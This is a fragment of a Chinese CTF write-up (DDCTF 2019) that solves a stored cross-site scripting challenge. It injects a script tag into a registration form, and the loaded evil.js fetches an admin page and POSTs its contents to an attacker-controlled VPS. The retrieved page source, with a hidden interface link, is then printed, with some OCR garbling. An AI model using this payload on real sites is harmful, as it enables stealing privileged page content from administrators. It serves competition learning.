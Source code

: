 ```
报名表单传入
<script src=http://VPS_IP/evil.js></script>
```

```js
// evil.js
fetch("http://117.51.147.2/Ze02pQYLf5gGNyMn/admin.php").then(o => o.text()).then(v => fetch('http://YOUR_VPS_IP/', {method: 'POST', body: JSON.stringify({k: v})}));
```

读到源码

```html
<!DOCTYPE html>
<html lang="en">
<head>
        <meta charset="UTF-8">
        <!--每隔30秒自动刷新-->
        <meta http- equiv="refresh" content="30">
        <title>DDCTF报名列表</title>
</head>
<body>
        <table  align="center" >
                < thead>
                        <tr>
                                <th>姓名</th>
                                <th>昵称</th>
                                <th>备注</th>
                                <th>时间</th>
                \ t</tr>
                </thead>
                <tbody>
                        <!-- 列表循环展示 -->
                                                <tr>
                                <td> 1 </td>
                                <td> 1 </td>
                                <td> <script src=http://xss.tf/kAD></script> </td>
                                <td> 2019-04-17 06:11:43 </td>

                        </tr>
                    
                                 ...............
                    
                        </tr>
                                                <tr>
                                <td>
                                        <a target="_blank"  href="index.php">报名</a>
                                </td>
\ n                     <!-- <a target="_blank"  href="query_aIeMu0FUoVrW0NWPHbN6z4xh.php"> 接口 </a>-->
                </tbody>
        </table>
</bo dy>
</html>
```
